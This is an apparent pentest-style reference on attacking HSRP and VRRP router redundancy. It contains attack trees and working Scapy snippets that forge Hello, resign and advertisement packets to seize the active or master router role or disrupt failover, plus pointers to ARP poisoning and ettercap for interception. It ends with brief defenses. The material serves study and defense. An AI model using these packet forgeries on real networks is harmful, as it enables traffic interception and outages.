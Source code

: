 # First-Hop Redundancy Protocols (HSRP/VRRP)`

## Attack tree for HSRP

```text
1. Compromise HSRP Group (OR)

    1.1. Spoof HSRP Messages (OR)

        1.1.1. Forge Hello Packets (Take Over Active Router Role)

        1.1.2. Modify Priority/Preemption Values

    1.2. Exploit Weak Authentication (OR)

        1.2.1. Crack Plaintext/MD5 Authentication

        1.2.2. Bypass Authentication (If None Configured)

    1.3. Cause Failover Disruption (OR)

        1.3.1. Trigger Unnecessary Active-Standby Switches (DoS)

        1.3.2. Send Fake Resign Messages (Force Role Changes)

2. Man-in-the-Middle (MITM) Attacks (AND)

    2.1. Redirect Traffic via HSRP Takeover (AND)

        2.1.1. Become Active Router (Required)

        2.1.2. Intercept/Modify Traffic (Required)

3. Denial-of-Service (DoS) (OR)

    3.1. Flood HSRP Groups (OR)

        3.1.1. Send Excessive Hellos (Disrupt Election)

        3.1.2. Advertise Invalid Virtual IPs (Confusion Attack)
```

## Attack Tree for VRRP

```text
1. Compromise VRRP Group (OR)

    1.1. Spoof VRRP Advertisements (OR)

        1.1.1. Forge Master Router Advertisements

        1.1.2. Manipulate Priority Values

    1.2. Exploit Authentication Weaknesses (OR)

        1.2.1. Crack Simple Text/MD5 Authentication

        1.2.2. Exploit No Authentication (Default in VRRPv2)

    1.3. Disrupt Failover (OR)

        1.3.1. Force Unnecessary Master-Backup Transitions

        1.3.2. Send Fake Shutdown Events

2. Traffic Interception (AND)

    2.1. MITM via VRRP Takeover (AND)

        2.1.1. Become Master Router (Required)

        2.1.2. Redirect Traffic to Attacker Node (Required)

3. Denial-of-Service (OR)

    3.1. Flood VRRP Groups (OR)

        3.1.1. Overwhelm with Advertisements (Prevent Election)

        3.1.2. Advertise Conflicting Virtual IPs
```

## Key differences

HSRP (Cisco Proprietary) uses UDP 224.0.0.2 (TTL=1). Default authentication = plaintext

VRRP (IEEE Standard) uses 224.0.0.18 (IP Protocol 112). VRRPv3 supports IPv6 and improved auth

## Common attack patterns

* Priority Spoofing: Attacker sets higher priority to become active/master.
* Authentication Bypass: Exploits weak/no auth to inject malicious packets.
* Failover Abuse: Forces unnecessary role changes causing instability.

## HSRP-Specific Exploits

### Crafting Malicious HSRP Packets (Takeover Active Role)

Tool: Scapy (Python)

Send forged HSRPv1/v2 Hello packets with:

* Source IP/MAC = Spoofed legitimate router
* Virtual IP = Target VIP
* Priority = 255 (highest, ensures takeover)
* Group ID = Target HSRP group
* Authentication = Default (plaintext) or brute-forced MD5

```python
from scapy.all import *
sendp(Ether(src="00:11:22:33:44:55", dst="01:00:5e:00:00:02")/  
      IP(src="192.168.1.1", dst="224.0.0.2")/  
      UDP(sport=1985, dport=1985)/  
      HSRP(priority=255, group=1, virtualIP="192.168.1.254"),  
      iface="eth0", loop=1) 
```

Effect: Attacker becomes Active Router, intercepting traffic.

### HSRP DoS via Fake Resign Messages

Send HSRP Resign packet (state=0) from spoofed Active Router:

```python
HSRP(opcode=0, state=0)  # Forces standby routers to re-elect  
```

Effect: Causes flapping, disrupting traffic.

## VRRP-Specific Exploits

### VRRPv2 Master Takeover

Tool: Yersinia (yersinia -G) or Scapy

Send VRRP Advertisement with:

* Priority = 255 (higher than current Master)
* Virtual IP = Target VIP
* Authentication = Simple text (default) or cracked MD5

```python
sendp(Ether(dst="01:00:5e:00:00:12")/  
      IP(src="192.168.1.1", dst="224.0.0.18", proto=112)/  
      VRRP(vrid=1, priority=255, ipcount=1, addrlist=["192.168.1.254"]),  
      iface="eth0")
```

Effect: Attacker becomes Master, controls VIP traffic.

### VRRPv2 DoS via Invalid VIPs

Advertise conflicting VIPs (e.g., VIP = 0.0.0.0):

```python
VRRP(addrlist=["0.0.0.0"])  # Causes VIP conflicts
```
      
Effect: Breaks redundancy, forcing manual recovery.

## Post-Takeover MITM attacks

* ARP Poisoning: If VIP is shared, spoof ARP replies to redirect traffic.
* Traffic Interception: Use tools like ettercap or tcpdump on the new Active/Master router.

## Defensive measures

* Authentication: Use HSRP MD5 or VRRPv3 IPsec AH (avoid plaintext).
* Network Segmentation: Restrict HSRP/VRRP multicast (224.0.0.2/18) to trusted switches (ACLs).
* Monitoring: Alert on priority changes (e.g., via SNMP traps).

